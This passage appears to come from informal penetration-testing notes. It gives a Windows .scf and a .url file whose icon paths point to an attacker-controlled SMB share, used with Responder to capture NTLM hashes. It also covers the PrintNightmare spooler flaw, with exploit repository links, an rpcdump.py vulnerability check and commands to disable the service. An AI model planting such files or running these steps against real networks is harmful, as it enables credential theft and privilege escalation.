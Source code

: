 	[Shell]
	Command=2
	IconFile=\\{IP}\Share\test.ico
	[Taskbar]
	Command=ToggleDesktop


This attack also works with `.url` files and `responder -I eth0 -v`.
say `@test.url`

	[InternetShortcut]
	URL=whatever
	WorkingDirectory=whatever
	IconFile=\\{IP}\%USERNAME%.icon
	IconIndex=1

### Mitigations

- UH, Just don't fall for it!

<br>




## Print-Nightmare

---

Takes advantage of the **Printer Spooler**, which has some functionality which **allows the users** to add **Printers**, which runs as a **SYSTEM PRIVILEGE!**. 

Because of which any sort of **Autheticated Attacker** can run **CODE EXECUTIONS** as **PRIVILEGED USER!** XD

<br>

### Resources

cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)

### Exploit

- Check if Vulnerable: use rpcdump.py

		rpcdump.py @{IP} | egrep 'MS-RPRN|MS-PAR'

	If we get those results back, we vulnerable :(

### Mitigation - just disable the damn service!

	Stop-Service Spooler
	REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f

### Installation
